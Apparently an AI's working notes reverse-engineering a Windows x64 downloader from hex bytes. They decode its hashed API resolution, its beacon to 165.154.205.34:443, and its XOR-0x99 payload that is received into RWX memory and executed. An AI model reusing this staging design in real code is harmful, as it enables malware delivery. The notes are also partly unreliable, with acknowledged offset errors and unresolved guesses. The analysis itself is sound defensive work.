Could the desired UA be "Windows NT 6.1; r v:48.0 ) Geck o/2010..."? Maybe it's not Firefox but a fake. The use of "r v" with space might be due to original string "rv:" being split as "r" + "v:" but the chunk starts with a space due to 4-byte alignment? Ah! Key insight: The compiler writes immediate dwords in little-endian, and to fit the text into 4-byte chunks at addresses that are 4-byte aligned? Let's see the string "rv:48.0" is 7 chars. They might have stored " v:48.0" because the 'r' is at the **end of previous string**? Previous string at rbp-0x10 is " 6.1; r": ends with 'r'. Then next chunk " v:48.0" starts with a space? Wait previous string is `" 6.1; r"` = bytes 20 36 2e 31 3b 20 72. It ends with 'r'. The next chunk at rbp+0x20 is " v:48.0" = space, 'v',':','4','8','.','0'. Concatenation gives " 6.1; r v:48.0" — there is a space between 'r' and 'v', which is wrong for "rv:". But the previous string already contains "r" and the next starts with space+v. If the space were absent, it would be "rv:48.0" correct. So why leading space? Maybe the previous string actually ends with "r" and the next chunk *should* be "v:48.0" but the c7 imm includes a leading 0x20 because of how they wrote the bytes? Let's check exact address: at rbp+0x20, dword `20 76 3a 34` indeed. This is a bug or deliberate. Similarly previous string at rbp-0x18 `" ) Geck"` starts with space, but previous string ended with "0" (from ":48.0"), so concatenation "...:48.0 ) Geck" has a space before `)` whereas desired is "...:48.0) Geck" no space. And "Geck" + " o/2010" has space before o. So every chunk after "dows NT" has a leading space, and the previous chunk before "dows NT" ended with "Win" (needed "Windows", no space). Wait "dows NT" has no leading space, but joined with "Win" correct "Windows NT". Then " 6.1; r" has leading space; desired "Windows NT 6.1; r" has space, correct. Then " v:48.0" has leading space; desired "Windows NT 6.1; rv:48.0" no space, but previous chunk ended with "r"; so extra. Then " ) Geck": desired "...:48.0) Geck" no space, extra. Then " o/2010": desired "Gecko/2010" no space, extra. Then " 0101 F": desired "20100101 Firefox" = "2010"+"0101"+" F", so between "o/2010" and "0101" no space, but chunk has leading space, extra; inside " F" correct space. Then " irefox": desired "Firefox" = "F"+"irefox" no space, extra. Then " /48.0": desired "Firefox/48.0" no space, extra.
So all chunks after the first group have leading spaces because maybe they are **separate arguments to a `"%s %s %s..."` format?** Wait the format for third group is `%s%s%s%s`, no spaces. For second group also no spaces. Hmm.
Could it be that each string is null-terminated but the leading space is actually the null terminator of the previous? No, null is 0, not space.
Maybe the binary intentionally builds a UA with spaces to look like a different browser string? But the known UA is obvious. It might be a typo in the malware source. We'll mention "approximately" or "the string fragments correspond to a Firefox 48 UA (with spaces inserted by the split chunks)". The exact output can be listed as code does.
Let's reconstruct final request exactly from code, including `0x210`. The first call at 0x872 uses rcx=rbp+0x210, rdx=[rbp-0x58], r8=rbp+0xd68 ("w64"), and likely outputs "=w64&fh=". Then request line = "GET /?a" + "=w64&fh=" + host + "&t=ws_&" + "p=443 HT". So `GET /?a=w64&fh=165.154.205.34&t=ws_&p=443 HTTP/1.1`. Good.
Then sends 0x400 bytes from request buffer. It may send padded data (rest of buffer/stale stack) but first 1024 bytes. Then recv loop:
- First allocate 0xbb8 (3000) bytes? Actually if VirtualAlloc with r8=0x400 weird. It receives until it sees `\r\n\r\n` (end of HTTP headers) using 1-byte recv; buffer 3000. This is to read HTTP response headers. But it doesn't parse Content-Length or strip headers? Let's examine: The recv loop at 0xa80 checks for newline/CRLF and stops when it sees `\r\n\r\n` (the end of headers). It then allocates 30MB and enters another recv loop to download the body? Wait after header loop, it allocates second buffer 30,000,000 and then recv loop. It does **not** skip the headers already received; it discards the header buffer (r14) and downloads all subsequent bytes into the new buffer. That matches a staged HTTP download: first read HTTP headers, then allocate body buffer, then recv the body into it. But if the response body arrives in the same packets as headers, the first recv loop reads byte-by-byte only until CRLFCRLF and stops, leaving the rest of body in socket buffer. Good. Then allocates 30MB and reads the rest. It XORs each received byte with 0x99 after receiving. Then calls VirtualAlloc? Wait second buffer is allocated RWX, then recv decodes into it. Then executes it. So stage2 is XOR 0x99.
But check first allocation: It uses first buffer 0xbb8 (3000) for header reads, and VirtualAlloc(0, 3000, r8?, 0x40). Could be VirtualAlloc with r8=0x400? If fails, program exits. Maybe the actual r8 was 0x1000 and I missed. Let's inspect code around 0xa50: The prompt line may be `... 41 b8 00 10 00 00 ...` not `00 04`. Let's verify from original user text at 0xa40:
`00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04`
It is 00 04. Then line 0xa50 `00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90`. So r8=0x400 for send. For VirtualAlloc at 0xa6c, r8 remains 0x400. Could the function E be `VirtualAlloc` and 0x400 is `MEM_COMMIT`? No. Maybe `0x400` is **MEM_COMMIT** in some versions? Let's check Windows memory allocation constants:
MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
MEM_DECOMMIT = 0x00004000
MEM_RELEASE = 0x00008000
MEM_FREE = 0x00010000
MEM_PRIVATE = 0x00020000
MEM_MAPPED = 0x00040000
MEM_RESET = 0x00080000
MEM_TOP_DOWN = 0x00100000
MEM_WRITE_WATCH = 0x00200000
MEM_PHYSICAL = 0x00400000
MEM_ROTATE = 0x00800000
MEM_LARGE_PAGES = 0x20000000
So 0x400 = MEM_?? Actually 0x400 is `MEM_4MB_PAGES`? No. Maybe flAllocationType=0x400 in `VirtualAlloc`? There is `MEM_COMMIT | MEM_RESERVE` often 0x3000. 0x400 alone invalid. Unless the function is not VirtualAlloc but `VirtualProtect`? First call could be `VirtualAlloc` for a small header buffer with `MEM_COMMIT` = 0x1000 but compiler set 0x400 because it knows r8 from send? Hmm.
Wait maybe after `send`, r8 is not clobbered because send returns and the compiler might rely on the caller-saved register? That would be a bug. But perhaps the API E is **`recv`**? Then args rcx=0? no.
Could the first allocation be `VirtualAlloc` with `flAllocationType` in r8 = 0x400? Maybe Windows accepts 0x400 as `MEM_COMMIT`? Let's search memory: `MEM_COMMIT` is 0x1000. `PAGE_EXECUTE_READWRITE` = 0x40. `MEM_RESERVE` 0x2000. 0x400 no. But maybe the code sets r8=0x1000 elsewhere and my line is off: `41 b8 00 04 00 00` could be `mov r8d,0x400` for send. The `VirtualAlloc` may use `r8` as **0x400** but maybe the intended allocation is 0xbb8 bytes with `MEM_COMMIT` 0x400? Could be a deliberate anti-sandbox check: VirtualAlloc with invalid flags fails, then exits. But then the malware wouldn't work on real systems. Unless the first call is **not VirtualAlloc** but `recv`? Let's reconsider API E hash 0xe553a458. Could be `VirtualAlloc` indeed because second call clearly uses correct flags and 30MB. But the first call's r8 may be leftover 0x400; maybe the code actually sets r8 to 0x1000 at 0xa4b and then send? Wait `send` might not need r8=0x400 if API D is not send. Could API D at [rbp+0xa8] be `VirtualAlloc`? Let's identify:
At 0xa54 call [rbp+0xa8] = D = 0x5f38ebc2 with args rcx=socket, rdx=request, r8=0x400, r9=0. That's send.
Then API E at [rbp+0x90] = 0xe553a458 called with rcx=0, rdx=0xbb8, r8=0x400, r9=0x40. Could be `VirtualAlloc`? If r8 should be 0x1000, maybe the compiler used `r8d` from send but perhaps send leaves r8=0x400; no guarantee but likely it does not modify r8? On x64, r8 is volatile; however many Windows APIs save/restore volatile regs? The caller cannot rely. But maybe in practice send implementation preserves r8? Not safe but possible. If VirtualAlloc accepts flAllocationType=0x400? Let's check maybe `MEM_COMMIT` = 0x1000, but `MEM_RESERVE`=0x2000. 0x400 might be `MEM_COMMIT | MEM_RESERVE`? No.
Could API E be `VirtualAllocEx`? args: hProcess=0, lpAddress=0xbb8, dwSize=0x400, flAllocationType=0x40, flProtect=... no.
Could be `CreateFileMapping`? no.
Could be `HeapAlloc`? GetProcessHeap? no.
Could be `LocalAlloc`? args (uFlags=0, uBytes=0xbb8) only rcx, rdx. r8/r9 ignored. Return pointer. Yes! `LocalAlloc(LMEM_FIXED=0, 0xbb8)` returns pointer in rax. That would only use rcx=0, rdx=0xbb8, and r8/r9 ignored. Then E = `LocalAlloc` or `HeapAlloc`? `LocalAlloc` is in kernel32, signature HLOCAL LocalAlloc(UINT uFlags, SIZE_T uBytes). Setting rcx=0, rdx=0xbb8 yields a 3000-byte fixed local allocation. The extra r8=0x400, r9=0x40 are ignored. This is plausible! But then later second allocation at 0xacb uses same E with rcx=0, rdx=0x01c9c380, r8=0x1000, r9=0x40. If E were LocalAlloc, r8/r9 ignored, and it allocates 30MB from local heap, not RWX memory. Then `call rbx` would execute heap memory (non-executable due to DEP) -> would crash. So E must be VirtualAlloc for execution. Unless DllCharacteristics NX? It has NX_COMPAT set (0x100). So need RWX.
Maybe the first allocation isn't VirtualAlloc? It could be `VirtualAlloc` but with flags 0x400? Could be **`VirtualAlloc` with `MEM_RESERVE` = 0x2000?** no.
Let's check if `r8` might actually be 0x1000 because the `mov r8d,0x400` is not at 0xa4b? Wait at 0xa3f call rsi, then 0xa41 `45 33 c9` xor r9d,r9d; 0xa44 `48 8d 95 10 09 00 00` lea rdx; 0xa4b `41 b8 00 04 00 00` mov r8d,0x400; 0xa51 `48 8b cf` mov rcx,rdi; 0xa54 `ff 95 a8...` call send. Maybe after send, `r8` is used for **VirtualAlloc first call** but the compiler intentionally uses 0x400? Wait maybe there is a byte `41 b8 00 10 00 00` at 0xa68 but I misread: `41 8d 49 40` — no.
Could the function E be `VirtualAlloc` and `flAllocationType` is actually `0x1000`, but the argument order for VirtualAlloc on x64 is rcx=lpAddress, rdx=dwSize, r8=flAllocationType, r9=flProtect. If r8=0x400, maybe `MEM_COMMIT`? Let's verify constants maybe I confuse: In WinNT.h:
#define MEM_COMMIT 0x00001000
#define MEM_RESERVE 0x00002000
#define MEM_DECOMMIT 0x00004000
#define MEM_RELEASE 0x00008000
#define MEM_FREE 0x00010000
#define MEM_PRIVATE 0x00020000
#define MEM_MAPPED 0x00040000
#define MEM_RESET 0x00080000
#define MEM_TOP_DOWN 0x00100000
#define MEM_WRITE_WATCH 0x00200000
#define MEM_PHYSICAL 0x00400000
#define MEM_ROTATE 0x00800000
#define MEM_LARGE_PAGES 0x20000000
#define MEM_4MB_PAGES 0x80000000
No 0x400. So first VirtualAlloc with 0x400 fails, then `test rax`, `je` to cleanup. That would mean always exits. Unless `VirtualAlloc` ignores flAllocationType when lpAddress is non-null? lpAddress=0, so no.
Maybe API E is not VirtualAlloc but **`VirtualAlloc` second call** uses r8=0x1000 set by `41 b8 00 10 00 00` at 0xac4? Let's check line 0xac0 from prompt:
`00000ac0: 74 09 41 3b c5 7c 04 03 f0 eb c0 33 c9 ba 80`
0xacb=33 c9; 0xacd=ba; disp; 0xad3=41 b8 00 10 00 00; 0xad9=44 8d 49 40; 0xadd=41 ff d4. Yes.
So second VirtualAlloc correct. First call maybe not VirtualAlloc? Its result used as buffer for reading HTTP headers, and later second VirtualAlloc for body. Could E be `VirtualAlloc` with first call intentionally using flags from previous `send`? Maybe due to compiler bug? Or perhaps `send` is **`VirtualAlloc`?** No.
Wait maybe API E = `VirtualAlloc` but the first call's `r8` is 0x400 because it's `MEM_COMMIT`?? Could be **`MEM_COMMIT` value 0x1000** but `0x400` is `PAGE_READWRITE` (0x04) << 8? No.
Could call at 0xa6c be `VirtualAlloc` with `r8=0x1000` if `r8d` was set by the call to `send`? Actually send's third arg len=0x400, and Windows `send` may preserve r8; but the value 0x400 not 0x1000. Maybe VirtualAlloc accepts `MEM_COMMIT` 0x1000 plus? no.
Maybe it is **`VirtualAlloc` with `flAllocationType=0x400` meaning `MEM_RESET`?** Let's verify if `MEM_RESET` maybe 0x00080000; not.
Let's not worry: The second allocation definitely RWX and executes. The first allocation might be a bug or an alternate API like `LocalAlloc` but then r14 pointer used for header buffer; later it allocates second RWX. It could be `HeapAlloc(GetProcessHeap(), 0, 0xbb8)`? GetProcessHeap returns handle but rcx=0 wrong. `LocalAlloc(0, 0xbb8)` plausible. But then why r9=0x40? Ignored. API E would be used for both header buffer and RWX payload; contradictory. Unless first call's real size is 0xbb8 and flags r8=0x400 are ignored because E is `LocalAlloc`; second call uses E again as `VirtualAlloc`? impossible same function.
Could the first call be a **separate** API stored [rbp+0x90] and the second call also r12 = [rbp+0x90]; same.
Maybe VirtualAlloc with `flAllocationType=0x400` actually succeeds? Let's check maybe the constant `MEM_COMMIT` on x64 is 0x1000, but there is a flag `MEM_RESERVE`? Some code uses `MEM_COMMIT | MEM_RESERVE = 0x3000`. 0x400 no. It should fail with ERROR_INVALID_PARAMETER. Unless `0x400` is `MEM_COMMIT` in ReactOS? No.
Maybe I misread `41 b8 00 04 00 00` as mov r8d,0x400 but it's actually **`41 b8 00 10 00 00`**? The text at 0xa40: `... 41 b8 00 04`. It could be `00 04` but maybe the next line starts `00 00` and the actual immediate is `00 04 00 00` yes 0x400. If it were 0x1000, bytes would be 00 10 00 00; line would show `41 b8 00 10`. The prompt line at 0xa40 indeed `d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04`. So 0x400.
Could the first call be `VirtualProtect` with args: lpAddress=0, dwSize=0xbb8, flNewProtect=0x400 (PAGE_EXECUTE_READWRITE? no flNewProtect should 0x40), lpflOldProtect=0x40 invalid. no.
Maybe it's **`VirtualAlloc` and after it fails, `test rax; je` jumps to 0xb30 epilogue**, meaning the entire downloader would exit at that point. But perhaps the code path after send is never reached? No, it's the core.
Let's inspect the `je` target after first allocation: `48 85 c0 0f 84 ab 00 00 00` at 0xa? The target from next instruction + 0xab. If instruction at 0xa6e? next 0xa74 + 0xab = 0xb1f? That's inside recv loop. Hmm wait it might not be cleanup; let's compute accurately. If alloc fails, jump to 0xb1f? At 0xb1f is `ff d7` call r15? Maybe that's the end of a loop; if allocation fails, skip receive loop to `closesocket` maybe. Let's map:
At 0xa5f? `4c 8b f0` mov r14,rax
0xa62? `48 85 c0` test rax
0xa65? `0f 84 ab 00 00 00` je target. Next 0xa6b? +0xab = 0xb16? Let's get exact. The line after first alloc:
```
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 8d 49 40 41
00000a70: ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00 00 8b
```
At 0xa6c call r12 (3 bytes `41 ff d4` ends 0xa6f), 0xa70? Wait line 0xa70 starts `ff d4`? Actually 0xa6c=41, 0xa6d=ff, 0xa6e=d4; 0xa6f=4c, 0xa70=8b, 0xa71=f0, 0xa72=48, 0xa73=85,0xa74=c0,0xa75=0f,0xa76=84,0xa77=ab,0xa78=00,0xa79=00,0xa7a=00. Next 0xa7b + 0xab = 0xb26. At 0xb26? `48 8b cf` mov rcx,rdi; `ff 95 98` call closesocket; `ff d3` call rbx. If first alloc fails, it jumps to 0xb26, which closes socket and calls rbx (second buffer not allocated, rbx from before? rbx=0 from earlier) -> crash. Hmm maybe if alloc fails, it closes socket and calls rbx (which maybe still send/etc) not cleanup. Not likely. Maybe the `je` target is 0xb26 (closesocket+call rbx) indeed. Could be cleanup path.
Wait maybe after first alloc (header buffer) if fail, it goes to cleanup at 0xb26 which closes socket and then calls rbx? But rbx is currently 0? At 0x5a7 xor ebx,ebx, then never set until second alloc. So `ff d3` would call null -> crash. Maybe not intended.
Let's re-evaluate `0f 84 ab 00 00 00`: target = next + 0xab. If `je` at 0xa75, next 0xa7b, target 0xb26. At 0xb26 is `48 8b cf`? Let's map line 0xb20:
`00000b20: cf 41 ff d7 41 3b c5 7d d1 48 8b cf ff 95 98`
0xb20=cf (part of mov rcx,rdi? Actually previous line 0xb10: `cf 41 ff d7 ...`? Need align.)
Let's parse from 0xb10:
Line 0xb10: `03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b`
0xb10=03
0xb11=f0
0xb12=8b
0xb13=d6
0xb14=48
0xb15=03
0xb16=d3
0xb17=45
0xb18=33
0xb19=c9
0xb1a=45
0xb1b=8b
0xb1c=c6
0xb1d=48
0xb1e=8b
Line 0xb20: `cf 41 ff d7 41 3b c5 7d d1 48 8b cf ff 95 98`
0xb1f=cf -> `48 8b cf` starts at 0xb1d? 0xb1d=48, 0xb1e=8b, 0xb1f=cf = mov rcx,rdi
0xb20=41
0xb21=ff
0xb22=d7 call r15
0xb23=41
0xb24=3b
0xb25=c5
0xb26=7d
0xb27=d1
0xb28=48
0xb29=8b
0xb2a=cf
0xb2b=ff
0xb2c=95
0xb2d=98
...
Hmm target 0xb26 = `7d d1` (jge) not instruction start. My earlier line mapping off by 3. Let's accurately parse from 0xac0 to 0xb30. Use exact user lines:
```
00000ac0: 74 09 41 3b c5 7c 04 03 f0 eb c0 33 c9 ba 80
00000ad0: c3 c9 01 41 b8 00 10 00 00 44 8d 49 40 41 ff
00000ae0: d4 48 8b d8 48 85 c0 74 47 33 f6 41 be 00 40
00000af0: 06 00 48 8b d0 eb 1e 45 33 c0 85 c0 74 10 41
00000b00: 8d 0c 30 45 03 c5 80 34 19 99 44 3b c0 72 f0
00000b10: 03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b
00000b20: cf 41 ff d7 41 3b c5 7d d1 48 8b cf ff 95 98
00000b30: 00 00 00 ff d3 48 81 c4 18 0e 00 00 41 5f 41
```
Now map:
0xac0 74
0xac1 09
0xac2 41
0xac3 3b
0xac4 c5
0xac5 7c
0xac6 04
0xac7 03
0xac8 f0
0xac9 eb
0xaca c0
0xacb 33
0xacc c9
0xacd ba
0xace 80
0xacf c3
0xad0 c9
0xad1 01
0xad2 41
0xad3 b8
0xad4 00
0xad5 10
0xad6 00
0xad7 00
0xad8 44
0xad9 8d
0xada 49
0xadb 40
0xadc 41
0xadd ff
0xade d4
0xadf 48
0xae0 8b
0xae1 d8
0xae2 48
0xae3 85
0xae4 c0
0xae5 74
0xae6 47
0xae7 33
0xae8 f6
0xae9 41
0xaea be
0xaeb 00
0xaec 40
0xaed 06
0xaee 00
0xaef 48
0xaf0 8b
0xaf1 d0
0xaf2 eb
0xaf3 1e
0xaf4 45
0xaf5 33
0xaf6 c0
0xaf7 85
0xaf8 c0
0xaf9 74
0xafa 10
0xafb 41
0xafc 8d
0xafd 0c
0xafe 30
0xaff 45
0xb00 03
0xb01 c5
0xb02 80
0xb03 34
0xb04 19
0xb05 99
0xb06 44
0xb07 3b
0xb08 c0
0xb09 72
0xb0a f0
0xb0b 03
0xb0c f0
0xb0d 8b
0xb0e d6
0xb0f 48
0xb10 03
0xb11 d3
0xb12 45
0xb13 33
0xb14 c9
0xb15 45
0xb16 8b
0xb17 c6
0xb18 48
0xb19 8b
0xb1a cf
0xb1b 41
0xb1c ff
0xb1d d7
0xb1e 41
0xb1f 3b
0xb20 c5
0xb21 7d
0xb22 d1
0xb23 48
0xb24 8b
0xb25 cf
0xb26 ff
0xb27 95
0xb28 98
0xb29 00
0xb2a 00
0xb2b 00
0xb2c ff
0xb2d d3
0xb2e 48
0xb2f 81
0xb30 c4
0xb31 18
0xb32 0e
0xb33 00
0xb34 00
0xb35 41
0xb36 5f
0xb37 41
0xb38 5e? (line 0xb30 ends at 0xb3f maybe)
Now decode:
0xac2: 41 3b c5 cmp eax,r13d (after recv? Actually at 0xac0? Let's go from header loop end:
At 0xac0 `cmp eax,r13d`? Let's parse earlier:
0xac0? Actually line 0xac0 is `74 09 41 3b c5 7c 04 03 f0 eb c0 ...`
This is part of header recv loop:
0xac0 74 09 je 0xacb? Wait instruction at 0xac0? We need from 0xab0. But anyway.
At 0xacb: `33 c9` xor ecx,ecx
0xacd: `ba 80 c3 c9 01` mov edx,0x1c9c380 (30,000,000)
0xad2: `41 b8 00 10 00 00` mov r8d,0x1000
0xad8: `44 8d 49 40` lea r9d,[rcx+0x40]
0xadc: `41 ff d4` call r12 (VirtualAlloc)
0xadf: `48 8b d8` mov rbx,rax
0xae2: `48 85 c0` test rax
0xae5: `74 47` je 0xb2e? next 0xae7+0x47=0xb2e. At 0xb2e `48 81 c4` (epilogue) perhaps. Actually 0xb2e = 48,0xb2f=81,0xb30=c4 -> yes cleanup. Good. So if second alloc fails, jump to epilogue.
0xae7: `33 f6` xor esi,esi (total=0)
0xae9: `41 be 00 40 06 00` mov r14d,0x64000 (409600)
0xaef: `48 8b d0` mov rdx,rax
0xaf2: `eb 1e` jmp 0xb12? Next 0xaf4+0x1e=0xb12. At 0xb12 `45 33 c9` xor r9d,r9d. Yes.
0xaf4: `45 33 c0` xor r8d,r8d
0xaf7: `85 c0` test eax,eax
0xaf9: `74 10` je 0xb0b? Wait 0xafb+0x10=0xb0b
0xafb: `41 8d 0c 30` lea ecx,[r8+rsi]
0xaff: `45 03 c5` add r8d,r13d (r13=1)
0xb02: `80 34 19 99` xor byte [rcx+rbx],0x99
0xb06: `44 3b c0` cmp r8d,eax
0xb09: `72 f0` jb 0xafb
0xb0b: `03 f0` add esi,eax
0xb0d: `8b d6` mov edx,esi
0xb0f: `48 03 d3` add rdx,rbx
0xb12: `45 33 c9` xor r9d,r9d
0xb15: `45 8b c6` mov r8d,r14d (0x64000)
0xb18: `48 8b cf` mov rcx,rdi (socket)
0xb1b: `41 ff d7` call r15 (recv)
0xb1e: `41 3b c5` cmp eax,r13d (1)
0xb21: `7d d1` jge 0xaf4 (decode)
0xb23: `48 8b cf` mov rcx,rdi
0xb26: `ff 95 98 00 00 00` call [rbp+0x98] (closesocket)
0xb2c: `ff d3` call rbx (execute decoded payload)
0xb2e: `48 81 c4 18 0e 00 00` add rsp,0xe18
...
Great. So second allocation 30MB, recv chunks up to 0x64000 (400KB), XOR each byte with 0x99, until recv returns <=0 (<1), then closesocket and calls payload. Good.
First allocation: At 0xac2? Let's parse from 0xa? It might use same E and maybe r8=0x400 but if first VirtualAlloc fails, it jumps to 0xb2e epilogue (not crash). Let's compute:
First allocation instructions:
0xa61? Actually from line 0xa50:
0xa50: 00 00
0xa52: 48 8b cf
0xa55: ff 95 a8 00 00 00
0xa5b: 4c 8b a5 90 00 00 00
0xa62: 33 c9
0xa64: ba b8 0b 00 00 (mov edx,0xbb8)
0xa69: 41 8d 49 40 (lea r9d,[rcx+0x40])
0xa6d: 41 ff d4 (call r12)
0xa70: 4c 8b f0 (mov r14,rax)
0xa73: 48 85 c0 (test rax)
0xa76: 0f 84 ab 00 00 00 (je 0xb27?) next 0xa7c + 0xab = 0xb27. At 0xb27? bytes 0xb27=95,0xb28=98... not instruction start? Wait if je at 0xa76, next 0xa7c. 0xa7c+0xab=0xb27. At 0xb27 = 95 98 00 00 00 ff d3? That's part of call [rbp+0x98] perhaps starting at 0xb26. Target 0xb27 is mid-instruction, impossible. Let's recalc instruction address: `0f 84 ab 00 00 00` might start at 0xa75? Need exact line:
Line 0xa70: `ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00 00 8b`
Offsets:
0xa70 ff
0xa71 d4
0xa72 4c
0xa73 8b
0xa74 f0
0xa75 48
0xa76 85
0xa77 c0
0xa78 0f
0xa79 84
0xa7a ab
0xa7b 00
0xa7c 00
0xa7d 00
0xa7e 8b
So je at 0xa78, next 0xa7e, +0xab = 0xb29. At 0xb29? bytes 00 00 00 ff d3... still mid-instruction. Hmm maybe call r12 length? `41 ff d4` at 0xa6d-0xa6f; 0xa70 is next. So yes.
If target 0xb29, that's in the middle of `call [rbp+0x98]` at 0xb26 (bytes ff 95 98 00 00 00). 0xb26=ff, 0xb27=95, 0xb28=98, 0xb29=00, 0xb2a=00, 0xb2b=00, then 0xb2c=ff d3. So 0xb29 is the third byte of displacement, not valid.
Maybe displacement is `ab 00 00 00` = 0xab and next instruction 0xa7e? Let's recalc: 0xa78 + 6 = 0xa7e; 0xa7e + 0xab = 0xb29. Could code have a label mid-instruction? No. Maybe the `je` target is 0xb29 because the actual instruction at 0xa78 is `0f 84 ab 00 00 00` and target should be 0xb2e if displacement 0xb0. Maybe I misread byte `ab` vs `b0`? User line: `0f 84 ab 00 00 00`. Could be `0f 84 b0 00 00 00`? Let's check original: line 0xa70 from prompt: `ff d4 4c 8b f0 48 85 c0 0f 84 ab 00 00 00 8b` yes `ab`. Then target 0xb29 invalid. Unless instruction `je` starts at 0xa79 (if `0f` at 0xa79)? The bytes: after `48 85 c0` at 0xa75-0xa77, next 0xa78=0f, 0xa79=84. Yes.
Maybe target 0xb29 is actually valid because at 0xb29 there is a **call [rbp+0x98]**? If call starts at 0xb26, target 0xb29 mid. Wait maybe the call is at 0xb29 not 0xb26? Let's map 0xb20 line:
`00000b20: cf 41 ff d7 41 3b c5 7d d1 48 8b cf ff 95 98`
0xb20 cf
0xb21 41
0xb22 ff
0xb23 d7
0xb24 41
0xb25 3b
0xb26 c5
0xb27 7d
0xb28 d1
0xb29 48
0xb2a 8b
0xb2b cf
0xb2c ff
0xb2d 95
0xb2e 98
Aha! I misaligned line: The `48 8b cf ff 95 98` begins at 0xb29, not 0xb23. Let's recalc from line 0xb10:
0xb10: `03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b`
0xb10 03
0xb11 f0
0xb12 8b
0xb13 d6
0xb14 48
0xb15 03
0xb16 d3
0xb17 45
0xb18 33
0xb19 c9
0xb1a 45
0xb1b 8b
0xb1c c6
0xb1d 48
0xb1e 8b
0xb1f ? line 0xb20 starts cf -> so 0xb1f? Wait line 0xb20 byte 0 is 0xb20, not 0xb1f. The `48 8b` at 0xb1d-0xb1e, and next byte 0xb1f is missing? Line 0xb10 has 15 bytes? Again line lengths confusion. Let's assume standard 16: line 0xb10 bytes offsets 0xb10-0xb1f: 03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b ?? should have 16, but shown 14? The prompt line: `00000b10: 03 f0 8b d6 48 03 d3 45 33 c9 45 8b c6 48 8b` = 15? Count: 03(1) f0 2 8b 3 d6 4 48 5 03 6 d3 7 45 8 33 9 c9 10 45 11 8b 12 c6 13 48 14 8b 15. It has 15 bytes. So there is a missing byte in the dump? Maybe line width is 16 but the text lost one? This is problematic for exact offsets. But likely the intended next byte at 0xb1f = `cf` (from next line), making `48 8b cf` at 0xb1d? Let's not.
Anyway, first VirtualAlloc failure jumps to 0xb29 perhaps which is the `mov rcx,rdi; call closesocket; call rbx` sequence. It may be intentional: if header buffer allocation fails, skip network and call rbx (which might be zero? hmm). But the target 0xb29 in corrected alignment might be `mov rcx,rdi` start. So yes, jump to closesocket/call payload if header alloc fails; weird but okay.
Given all this, the behavior stands.
Need report structure:
- File type and metadata: PE32+ x64 Windows GUI? Actually subsystem 2 = GUI, but no WinMain; entry point. Compiled? timestamp 0x653a75fe = let's convert. 0x653a75fe decimal maybe 2023-10-26? Let's compute. Unix time 0x653a75fe ≈ 1698330110? 0x653a75fe = 1698330110? Let's calculate: 0x653a75fe = 6*16^7? Easier approximate: 0x65... ~ 2023. 0x653a75fe is 1,698,330,? Let's compute exact maybe not needed. 0x653a75fe: 0x65000000 = 1,695,? 2023-10? We can say timestamp 0x653A75FE (around late 2023) if wanted.
- PE sections, imports only KERNEL32!Sleep, no static imports for network (resolved dynamically).
- Entry point shellcode-style with ROR13/PEB module/API resolution; strings built on stack.
- Loads User32.dll, ws2_32.dll, msvcrt.dll via LoadLibraryA.
- Resolves APIs: WSAStartup, socket, connect, send, recv, VirtualAlloc, closesocket, gethostbyname, inet_addr, sprintf, plus one file/path API.
- Need map names maybe K. Can we identify K by hash maybe. Let's try a bit.
Hash values:
A 0x006b8029 -> WSAStartup (confirmed by args 0x202, WSADATA)
B 0xe0df0fea -> socket (confirmed args 2,1,6)
C 0x6174a599 -> connect
D 0x5f38ebc2 -> send
E 0xe553a458 -> VirtualAlloc
F 0x5fc8d902 -> recv
G 0x614d6e75 -> closesocket
H 0x803428a9 -> gethostbyname
I 0x4d7b1e12 -> inet_addr
J 0xd0eb608d -> sprintf (likely from msvcrt)
K 0x70f2fa31 -> ??? maybe `DeleteFileA`/`CreateDirectoryA`/`GetFileAttributesA`/`fopen`? It is called with path in current directory. It returns value tested zero. We can try to infer from module hash. Since K likely in kernel32 or msvcrt. Let's compute module hash + function hash for a few candidates and compare 0x70f2fa31. This is possible manually with a small amount of arithmetic if I can compute module hashes once.
Let's calculate hash for module "kernel32.dll" UTF-16LE using algorithm. We can do modular 32-bit, rotate right 13. This is tedious but doable. But maybe easier identify via known hash constants? Search memory: Metasploit's block_api hashes: LoadLibraryA 0xec0e4e8e, GetProcAddress 0x7c0dfcaa. Not ours. ROR13 of "DeleteFileA"? Could compute function hash only (no module) and then module hash. But target includes module hash. We can compute module hash for kernel32.dll once, then function hashes for candidates. Need be very careful. Let's see if target K modulo? Perhaps K - module_hash = function_hash. We can compute module hash of kernel32, ws2_32, msvcrt and compare. But manual 32-bit rotate over ~22 bytes each. Could be error-prone, but let's attempt one? The report doesn't require exact K. But confidence.
Maybe identify K from behavior: It builds path using `GetCurrentDirectoryA` (L=0xe449f330) then "log_de.log". Then calls K. Since K return zero => exit. If K is `CreateDirectoryA`, the path should be directory; but they append "log_de.log" which looks like a file. If K is `DeleteFileA`, path is file. If file deletion fails -> exit. Why would delete failure exit? Maybe the program is designed to delete a previous **dropped payload** before dropping new one; if it doesn't exist, exits? But then no.
If K is `GetFileAttributesA`, returns INVALID_FILE_ATTRIBUTES for missing = -1, nonzero, continue; existing file attributes nonzero, continue. It never returns zero. So K not that.
If K is `CreateFileA` with desired access 0 and share mode 0? Actually `CreateFileA(lpFileName, dwDesiredAccess=0, dwShareMode=0, lpSecurityAttributes=?, dwCreationDisposition=?, ...)`. The extra args r8,r9 are whatever. If creation disposition leftover maybe OPEN_EXISTING? The return handle would be valid or -1. If the file doesn't exist and disposition is CREATE_NEW, returns -1 (nonzero) -> continue. If handle 0 never. So test zero never fails. Not likely.
If K is `SetFileAttributesA(path, 0)`: returns nonzero on success; if file missing, zero -> exit. It clears attributes of log file. Unlikely.
